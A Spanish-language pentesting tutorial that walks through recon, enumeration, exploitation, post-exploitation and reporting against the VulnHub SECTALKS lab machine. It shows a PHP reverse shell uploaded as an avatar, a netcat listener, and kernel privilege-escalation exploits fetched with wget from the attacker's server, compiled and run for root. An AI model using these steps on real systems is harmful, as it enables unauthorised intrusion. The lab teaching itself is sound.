

# ¿CUÁLES SON LAS FASES DE UN PENTEST?
Cuando hablamos de Pentesting o Hacking Ético nos estamos refiriendo a ciberataques que funcionan como simulaciones contra un sistema software, servidor o incluso contra una persona en particular (ingeniería social). La prueba de pentesing son necesarias para prevenir vulnerabilidades de ataques externos y así verificar que los sistemas están funcionando correctamente. Por ejemplo, supongamos que soy contratado para simular un robo en una mansión, yo como presunto ladrón debo de infiltrarme dentro de la vivienda y revisar cada una de las habitaciones hasta descubrir cómo está todo distribuido, hasta las cajas fuerte que nadie sabia excepto tú.
Estos test de intrusión actúan bajo el margen de la ley, es decir, son totalmente legales ya que son pactados entre la entidad u organización que solicita el servicio. Es crucial tener en cuenta que, durante una evaluación de intrusión, un pentester debe respetar ciertos límites. Si se le asigna la tarea específica de auditar exclusivamente las redes de la empresa, no debería extender su análisis al servidor web, ya que no fue contratado para realizar esa tarea.
Entre las tácticas de intrusión más comunes empleadas por los atacantes, se encuentran:
- Despliegue de Malware, virus, troyanos o keyloggers.
- Aprovechamiento de puertas traseras.
- Ingreso a sistemas mediante la explotación de configuraciones deficientes.
- Empleo de técnicas de ingeniería social para infiltrar archivos no deseados o robar credenciales a través de técnicas como el phishing.

# [1] RECONOCIMIENTO
A continuación explicaré cómo es el proceso de un examen de penetración junto con sus fases. Cabe recalcar que estas fases tienen un orden específico pero que los nombres pueden variar. Mientras explico fase por fase, descargué una máquina vulnerable llamada SECTALKS de VulnHub para describir el proceso de las fases y observar algunas vulnerabilidades ya explotadas en mis artículos.
En esta primera fase se definen los objetivos del Pentesting para determinar que métodos se van a emplear. El auditor/pentester hace una recolección de todos los datos que se encuentren disponibles del objetivo para el test de penetración. Según el caso, algunos de estos datos suelen ser:
-
Direcciones IP, puertos abiertos, servicios corriendo, dominios.
-
Google Hacking (dorking).
-
Herramientas de scraping (DNS-Recon, Nmap, SkipFish, Maltego, etc).
-
Ingeniería Social: En caso de llevar una práctica de ingeniería social a los empleados de una empresa, se puede considerar prácticas como el phishing y/o spoofing de manera autorizada. Esto con el objetivo de capacitar a los empleados contra este ataque habitual.
-
Obtención de metadados mediante documentos, videos y fotografías.
Lo primero que haré es encontrar la dirección privada de la máquina objetivo, para ello tenemos diversas herramientas como nmap, arp-scan o netdiscover.
$ sudo arp-scan -I eth0 --localnetEl comando ping se suele encontrar en cualquier sistema y su utilidad consiste en probar la conectividad de red. Con el siguiente comando sabremos si la máquina víctima se encuentra activa al enviar tres paquetes:
$ ping -c 3 192.168.25.135DATO IMPORTANTE: A través de los valores TTLs podemos averiguar el sistema operativo por detrás de esa IP.
| O.S | TTL |
|---|---|
| Linux/Unix | 64 |
| Windows | 128 |
| MacOS | 64 |
| Solaris/AIX | 254 |
| FreeBSD | 64 |
Una vez comprobemos su actividad, con la herramienta de Nmap escaneamos todos los puertos abiertos:
$ nmap -p- --open -sC -n -Pn -vvv 192.168.25.135-
-p-: Va a escanear todos los puertos (del 1 hasta 65536).
-
--open: Solo va a escanear aquellos que se encuentren abiertos.
-
-sC: Ejecuta scripts predeterminados de Nmap en busca de información del sistema operativo sin causar interrupciones.
-
-n: Deshabilita la resolución de DNS durante el escaneo, es decir, si encuentra un puerto abierto lo mostrará en pantalla sin necesidad de esperar a que termine el escaneo por completo para listar todos los puertos abiertos.
-
-Pn: Nmap omite la comprobación del host, al incluir esta opción le indicas que ya asumes que el host se encuentra activo. Permite ahorrarnos tiempo durante el escaneo.
-
-vvv: El modo verbose mostrará información adicional durante la salida del escaneo.
Como pueden observar, el puerto 80 es el único que se encuentra abierto, lo que supone que existe un servicio web corriendo por detrás. Para ello, utilizaremos el siguiente comando para listar las versiones de los servicios disponibles:
$ nmap -p 80 -sV 192.168.25.135-
-p 80: Aquí le específicamos a Nmap que únicamente nos muestre información del puerto 80, se debe separar con coma "," si desean especificarle más puertos (Ej: nmap -p 80,21,20,443).
-
-sV: Realiza un escaneo de las versiones de los servicios descubiertos.
# [2] ENUMERACIÓN Y ANÁLISIS DE VULNERABILIDADES
En esta segunda fase se realiza todas las acciones posibles que nos permitan comprometer nuestro objetivo, suele ir acompañada con la primera fase. A partir de una lista de vulnerabilidades conocidas (como OWASP Top 10), un pentester o hacker ético debe investigar que tipo de exploits existen para obtener acceso al sistema, pero eso ya sería apresurarnos a la tercera fase.
Algunas de las vulnerabilidades más comunes son las siguientes:
-
Inyección (SQL, HTML, etc).
-
Fallos Criptográficos.
-
Mala configuración de seguridad (LFI, RFI, XSS, etc).
-
Fallos de identificación y autenticación de usuario.
-
Componentes obsoletos (Ej: versiones antiguas de plugins WordPress).
Al ingresar al sitio web nos encontramos con un panel de login, un dato importante es siempre registrarse para obtener más funcionalidades dentro del sitio.
En las configuraciones del usuario tenemos la posibilidad de cambiar nuestro avatar, a simple vista puede pasar desapercibido para el administrador o el propio usuario, pero para un atacante es una oportunidad para sus travesuras. Existe una vulnerabilidad (explicada en un artículo) llamada "File Upload" y consiste en subir un archivo al servidor web sin que sea comprobado por algun sistema de seguridad en particular. Al ser un avatar debe ser un archivo con extensión .jpg, .gif o .png; pero para explotar esta vulnerabilidad el atacante sube un archivo (generalmente una reverse shell) con extensión .php para poder recargarla al servidor web y ganar acceso.
En esta fase no fue necesario utilizar alguna herramienta para escanear vulnerabilidades ya que fue a "ojo" dado que es una máquina preparada, pero perfectamente podríamos estar frente a SQLi, XSS, LFI, etc. Aún así, dejaré algunas herramientas que pueden utilizar para escanear vulnerabilidades:
-
Nmap
-
ZenMAP
-
Nessus
-
Uniscan
-
Burp Suite
-
Nikto
-
SQLmap
-
Legion
-
WPScan
-
W3af
-
Skipfish
Y para la vulnerabilidad de File Upload existe un repositorio útil que pueden utilizar en sus prácticas de pentesting:
Fuxploider: https://github.com/almandin/fuxploider
# [3] EXPLOTACIÓN DE VULNERABILIDADES
Luego de haber realizado un análisis de las posibles vulnerabilidades que se encuentren en el objetivo, seguiría la tercera fase; explotación de vulnerabilidades. Esta fase consiste en aprovecharse ("explotar") las vulnerabilidades encontradas anterior, es decir: ejecutar exploits o introducir credenciales obtenidas para conseguir acceso al sistema.
Para esta vulnerabilidad usaremos una Reverse Shell para poner un puerto a escucha de conexiones. Existen varias herramientas (como Weevely) para generar shell inversas automáticas, pero en mi caso voy a usar la que trae por defecto Kali Linux en la ruta /usr/share/webshells/php/, el siguiente comando lo que hará es copiar la reverse shell al escritorio para poder configurarla:
$ cp /usr/share/webshells/php/php-reverse-shell.php .Con el editor de Nano lo que haremos es modificar la línea de $ip y $port.
$ nano php-reverse-shell.phpEn donde dice $ip deben introducir la IP local de su máquina, para obtenerla ejecutan ifconfig en la terminal:
Y en el $port pueden dejarlo por defecto o cambiarlo (yo use el 4444). Para guardar los cambios CTRL + SHIFT + O + ENTER.
Seguidamente nos dirijimos de nuevo a la configuración del usuario y en el apartado de avatar subimos la reverse shell generada (importante guardar los cambios):
Una vez que se haya subido solo quedaría poner el puerto a escucha de las conexiones, pero antes es importante saber en que ruta del servidor se subió la shell. Para ello, existe una técnica llamada "Fuzzing" que consiste en descubrir errores con dato al azar, en este caso usaremos ataque por diccionario para descubrir todas las rutas que existen en el servidor web, usualmente los archivos de suba se suelen guardan en directorios comos /uploads,/files. Hay una variedad de herramientas gratuitas para aplicar esta técnica, yo personalmente uso GoBuster pero pueden optar por Dirb también.
$ gobuster dir -u http://192.168.25.135/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt-
dir: Listará directorios.
-
-u: Especificar URL de la página.
-
-w: Especificar ruta del diccionario donde se encuentran la lista de posibles directorios.
Efectivamente, el sitio en este caso cuenta con una ruta llamada /uploads que si observamos tiene guardada la reverse shell que cargamos anteriormente para nuestro "avatar".
Finalmente, pondremos a escucha el puerto que configuramos en la reverse shell con la herramienta Netcat:
$ netcar -lvp 4444-
-l: Modo escucha.
-
-v: Modo verbose (más información sobre las conexiones).
-
-p: Especificar número del puerto.
Luego deben recargar la reverse shell, en la ruta de /uploads copian el link de la shell y la pegan en el navegador, o simplemente clickean sobre ella.
En la terminal que tienen a escucha con Netcat se les abrirá una sesión donde podrán ejecutar comandos desde la máquina víctima.
Y es así como se lográ explotar la vulnerabilidad y ganar acceso al sistema, en caso de que la conexión se pierda se tiene que volver a poner escucha el puerto y recargar la reverse shell.
# [4] POST-EXPLOTACIÓN
Supongamos que logramos acceder al sistema como lo hicimos anteriormente, pero al momento de querer eliminar/editar/mover/descargar un archivo no podemos porque somos usuario no privilegiado y por lo tanto no somos una "amenaza" aún para el sistema en sí. En la fase 4 se encuentra involucrada la "post-explotación" y consiste en ingresar al sistema desde el usuario administrador (ROOT) sin autorización; tras infiltrarse al sistema el pentester o hacker malicioso, suelen hacer escalada de privilegios mediante uso de códigos o aprovechamiento de bugs en softwares, movimiento lateral a máquinas conectadas en la red LAN, despliegue de malware en el sistema, ejecucción remota de código en la máquina, entre otras.
Si observan en la imagen soy el usuario www-data, y si bien podemos movernos entre directorios, no somos usuario ROOT como tener el control total del sistema.
Con el comando lsb_release -a desplegamos la distribución del sistema y su versión y con el comando uname -a obtenemos información del sistema pero también del kernel (el núcleo).
Observamos que la distribución es Ubuntu y su versión 14.04.2, al ser muy antigua es posible que tenga vulnerabilidades que a día de hoy sean fácilmente explotables. Lo que hacemos aquí es utilizar Internet para buscar algun exploit de escalada de privilegios para esta versión de Ubuntu:
Otro método para buscar exploit es utilizando la herramienta Searchsploit de Kali Linux para automatizar los registro de la web: https://www.exploit-db.com/
Cada exploit tiene un identificador único (la serie de números que se ve al final de la imagen) el cual permite poder bajarlo mediante el comando "searchsploit -m número". Luego de investigar llegué a la conclusión de que el exploit cuya identificación es 37293, es el más accesible debido que cumple con la versión del Kernel (con uname -a observamos que su versión es 3.16.0-30-generic) ya que va desde la 3.13.0 < 3.19, y con la versión de Ubuntu (12.04/14.04/14.10/15.04).
$ searchsploit -m 37292Después de identificar y bajar el exploit quedaría abrir un servidor web local, lo podemos hacer a través de python o con apache2. Esto lo que hará es mostrar nuestros directorios y archivos desde el navegador web a través del puerto 80, para ingresar deben copiar su IP local de Kali (comando ifconfig) y agregarle el puerto al final (Ej: 192.168.1.5:80):
Una vez hecho lo anterior, tienen que posicionarse en el exploit (37292) y le dan clic derecho y copiar link para obtener la ruta.
Desde la máquina víctima ingresamos al directorio /tmp (este directorio es temporal para alamacenar datos que serán eliminados futuramente) y descargamos el exploit con el siguiente comando:
$ wget "LINK"
Ej: wget http://192.168.25.128/37292.cY ya que estoy le cambiaré el nombre para que sea más fácil manipularlo.
$ mv 37292.c exploit.cAhora solo quedaría compilar el exploit con el comando:
$ gcc -o kernel exploit.cLuego darle los permisos de escritura, lectura y ejecucción:
$ chmod +x kernelY por último ejecutarlo:
$ ./kernel¡OPS! Al parecer el exploit no funciono, esto puede ser algo tedioso ya que no siempre el exploit es el adecuado y por lo general hay que seguir buscando hasta hallar con el indicado. Después de volver a seguir investigando y probando, hasta que dí con uno de los exploits cuya identificación es 36746.
$ searchsploit -m 36746Nuevamente repetí los pasos anteriores solo que esta vez le dí permisos de lectura, escritura y ejecución antes, y para compilarlo utilicé el parámetro -static para enlazar todas las bibliotecas necesarias para el ejecutables sin depender de otras bibliotecas compartidas o dinámicas.
$ chmod 755 exploit.c
gcc -static exploit.cAl compilarlo deja un fichero llamado "a.out", se ejecuta con:
$ ./a.out¡ACCESO AUTORIZADO! Y así es como finalmente pude conseguir acceso al usuario ROOT y desde aquí tengo control total del sistema, lo que me permite ejecutar las tareas que antes no podía. Este método que acabo de emplear se llama "Escalada de Privilegios" pero existen otras formas de poder conseguir root y una de ellas es aprovechandose de vulnerabilidades de sudo como Sudoers o abuso de permisos SUID.
Estos dos tipos de abusos se encuentran en mi revista "Road To Hacking de forma gratuita para que puedan aprender acerca de ellas:
- https://github.com/R3LI4NT/road-to-hacking
# [5] REPORTE TÉCNICO
En esta última fase se explica como elavorar un reporte técnico de un pentest, este infome debe ser redactado de manera formal y bien detallada sobre los objetivos, evidencias y recomendaciones de controles para su mitigación. En el apartado del reporte técnico debemos dejar en claro varios aspectos como:
- Vulnerabilidades encontradas (por tipo): En caso de que se encuentre más de una vulnerabilidad (una empresa grande) en varios activos y donde se identifiquen múltiples vulnerabilidades repetidas, se debe agrupar a estos activos y enfocarnos más en la vulnerabilidad en lugar de hacerlo por separado.
Para cada vulnerabilidad encontrada y explotada, se debe identificar su:
- Nombre.
- Descripción breve.
- Impacto / Criticidad.
- Clasificación.
-
ID único.
-
Vulnerabilidades por objetivo: A diferencia del anterior, en un pentest pequeño se utiliza la identificación por objetivo cuando se trata de varias vulnerabilidades. Se debe proporcionar la siguiente información:
-
El objetivo alcanzado.
-
Lista y descripción de las vulnerabilidades.
-
Medidas de controles: Dentro del reporte de pentest, es importante definir los pasos a seguir para poder corregir o tomar acciones contra los problemas identificados.
Dependiendo del impacto que pueden llegar a tener las vulnerabilidades, se debe priorizar tomar medidas a corto plazo para minimizar el riesgo al que se encuentra expuesta la organización, o en caso de ser un servicio público; trata de que los clientes no se vean afectados. En aquellas medidas de largo plazo se requiere una solución más técnica debido a su complejidad y costo.
En las "medidas a tomar" se define un listado de acciones que se le recomienda al cliente ejercer, se considera los parche de seguridad, actualizaciones y capacitación de empleados (en caso de que se requiera). Algo que no se suele ver muy común es un manual de buenas prácticas de seguridad que se le suele dar al cliente como vía de apoyo para estas circunstancias.
-
Registro (logs): Finalmente, un reporte técnico debe incluir un registro detallado de las acciones realizadas:
-
Fecha del test.
- Objetivo atacado (activo).
- Tipo de prueba.
- IP de origen.
- Herramientas utilizadas.
- Capturas de pantalla.
- Pentester a cargo.
Algunos de estos datos pueden ser incluidos en la misma portada con el objetivo de identificar y clasificar el informe correctamente.